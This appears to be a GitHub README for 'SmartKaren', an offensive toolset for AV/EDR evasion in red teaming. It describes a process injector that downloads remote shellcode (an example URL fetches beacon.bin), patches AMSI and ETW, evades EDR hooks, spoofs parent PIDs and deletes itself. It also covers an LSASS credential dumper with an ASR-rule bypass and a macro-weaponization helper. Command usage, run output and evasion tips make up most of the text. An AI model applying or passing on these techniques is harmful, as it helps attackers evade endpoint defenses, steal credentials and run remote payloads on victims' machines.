 # SmartKaren
A series of custom offensive toolset and utilities written in C# and Rust. This project is developed to explore AV evasion techniques for aiding red teaming operations. 

## KarenLdr
KarenLdr is a compact Process Injector with various evasion techniques such as AMSI bypass and ETW patching built-in to it. To evade static signature, KarenLdr leverages low level NT*API calls (with the exception of AMSI & ETW patching) and a modified version of D/Invoke library. 

At it's core, KarenLdr leverages a combination of `NtMapViewSection` and `NtQueueApcThread` to steer away from the classic process injection method of `VirtualAlloc`, `VirtualProtect` and `CreateThread` that are heavily signatured. To achieve this, the remote process is spawned under a suspended state by tampering the Process Creation Flag with `CREATE_SUSPENDED`. This technique is useful in bypassing Attack Surface Reduction (ASR) rule that blocks the creation of threads.

At runtime, a fresh copy of `ntdll.dll` is loaded into the process. The original ntdll.dll that was hooked by EDR is left untouched. All NT*API are then exported and called from the clean copy of ntdll.dll instead. This EDR evasion method is especially effective because the integrity of EDR hooks are not tampered with. Alternatively, direct syscalls can also be enabled by specifying the `--syscall` flag.

Additionally, it also supports Parent Process ID (PPID) Spoofing, allowing the sacrificial process to spawn under an arbitrary process using it's PID. If the target `-t, --target` is not specified, it will perform self-injection instead. At the end of execution, the executable file will be wipped from disk automatically to erase traces.

**Future Enhancement:** Indirect Syscalls & Threadless Injection
```
C:\>KarenLdr.exe -u "https://192.168.231.128:443/beacon.bin" -t notepad -p 9524 -k 
     _        _______  _______  _______  _        _        ______   _______
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|( \      (  __  \ (  ____ )
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (      | (  \  )| (    )|
    |  (_/ / | (___) || (____)|| (__    |   \ | || |      | |   ) || (____)|
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |      | |   | ||     __)
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |      | |   ) || (\ (
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (____/\| (__/  )| ) \ \__
    |_/    \/|/     \||/   \__/(_______/|/    )_)(_______/(______/ |/   \__/

 KarenLdr: D/Invoke + NT*API + Manual Mapping + Direct Syscall + AMSI & ETW Patching + PPID Spoofing

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -s, --syscall  Enable Direct Syscall. Default: Manual Mapping

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : https://192.168.231.128:443/beacon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 9524
| Self Destruct : True
|--------------

[>] Patching Event Tracing for Windows (ETW)
    |-> Address of ntdll.dll: 0x7FFD8DEF0000
    |-> Location of EtwEventWrite(): 0x7FFD8DF3F1F0
    |-> Patching Memory: 0x00000020 -> 0x04
    |-> Restoring Memory: 0x04 -> 0x00000020

[>] Patching Anti Malware Scan Interface (AMSI)
    |-> Address of AmsiScanBuffer(): 0x7FFD75B83860
    |-> Successfully Patched AMSI!

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 22232

[>] Fetching Payload
    |-> Payload Retrieved Successfully!

[>] Resolving Addresses of ntdll.dll
    |-> Original ntdll.dll: 0x7ffd8def0000
    |-> New copy of ntdll.dll: 0x29cb56e0000

[>] NtCreateSection()
    |-> New Section Created!

[>] NtMapViewOfSection()
    |-> New Section Mapped!

[>] Copied Shellcode to Memory!

[>] NtMapViewOfSection()
    |-> Memory Region Mapped to Target Process!
    |-> Base Address: 0x209ED370000

[>] NtQueueApcThread()
    |-> Queueing APC!

[>] NtSetInformationThread()
    |-> Thread Priority Set!

[>] NtResumeThread()
    |-> Resuming Thread!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!

[>] CloseHandle()
    |-> Closing Thread Handle!

[>] KarenLdr.exe removed from disk!
```

## KarenDumpedMi
KarenDumpedMi demonstrates 2 different methods to dump the Local Security Authority Subsystem Service (LSASS) process from memory. This requires `SYSTEM*` privileges and AMSI bypass to interact with the LSASS process.

Method 1 leverages `MiniDumpWriteDump` from `Dbghelp.dll` to perform a user-mode minidump. To evade behavioural detection, spoof the PPID to `winlogon.exe` and set the spawnto sacrificial process to either `WerFault.exe` or `svchost.exe`.

Method 2 leverages `WmiPrvSE.exe` and shellcode injection to dump LSASS on an endpoint with the ASR rule of "Block credential stealing from the Windows local security authority subsystem (lsass.exe)" enabled.

**NOTE:** To parse the dump file, use `sekurlsa::minidump lsass.dmp` -> `sekurlsa::logonpasswords` from Mimikatz or a LSASS parser like [MiniDump](https://github.com/cube0x0/MiniDump).
```
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Process Handle: 0x2CC
    |-> File Handle (karen.dmp): 0x2C4

[>] Invoking MiniDumpWriteDump
    |-> Successfully Called MiniDumpWriteDump()
    |-> COMPLETED! You can now parse karen.dmp!
    
C:\>KarenDumpedMi.exe
     _        _______  _______  _______  _        ______            _______  _______  _______  ______   _______ _________
    | \    /\(  ___  )(  ____ )(  ____ \( (    /|(  __  \ |\     /|(       )(  ____ )(  ____ \(  __  \ (       )\__   __/
    |  \  / /| (   ) || (    )|| (    \/|  \  ( || (  \  )| )   ( || () () || (    )|| (    \/| (  \  )| () () |   ) (
    |  (_/ / | (___) || (____)|| (__    |   \ | || |   ) || |   | || || || || (____)|| (__    | |   ) || || || |   | |
    |   _ (  |  ___  ||     __)|  __)   | (\ \) || |   | || |   | || |(_)| ||  _____)|  __)   | |   | || |(_)| |   | |
    |  ( \ \ | (   ) || (\ (   | (      | | \   || |   ) || |   | || |   | || (      | (      | |   ) || |   | |   | |
    |  /  \ \| )   ( || ) \ \__| (____/\| )  \  || (__/  )| (___) || )   ( || )      | (____/\| (__/  )| )   ( |___) (___
    |_/    \/|/     \||/   \__/(_______/|/    )_)(______/ (_______)|/     \||/       (_______/(______/ |/     \|\_______/

[>] Finding Alive Process
    |-> Found lsass.exe
    |-> PID: 920

[>] Finding MiniDumpWriteDump
    |-> Location of MiniDumpWriteDump(): 0x7FFD7E8F6C50

[>] Getting Handles
    |-> Unable to Open Process Handle!

[>] Method 1 Failed! Trying Method 2
    |-> Dumping LSASS With ASR Bypass!

[>] Spawning WmiPrvSE.exe
    |-> PID: 20856

[>] COMPLETED! You can now parse lsass.dmp!
```

## Karen2Gadget
Karen2Gadget is a boilerplate of KarenLdr designed to work compatibly with [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript). It can be used to automate Macro weaponization for bypassing ASR rules that block Win32 APIs.

**NOTE:** Use `cscript.exe Karen2Gadget.vbs` to test the PoC.
``
C:\>GadgetToJScript.exe -c Karen2Gadget\Program.cs -o Karen2Gadget -w vba -b -d System.dll
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at: Karen2Gadget\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: Karen2Gadget.vba

C:\>GadgetToJScript.exe -c Karen2Gadget\Program.cs -o Karen2Gadget -w vbs -b -d System.dll
[+]: Generating the vba payload
[+]: First stage gadget generation done.
[+]: Compiling your .NET code located at: Karen2Gadget\Program.cs
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: Karen2Gadget.vbs
``
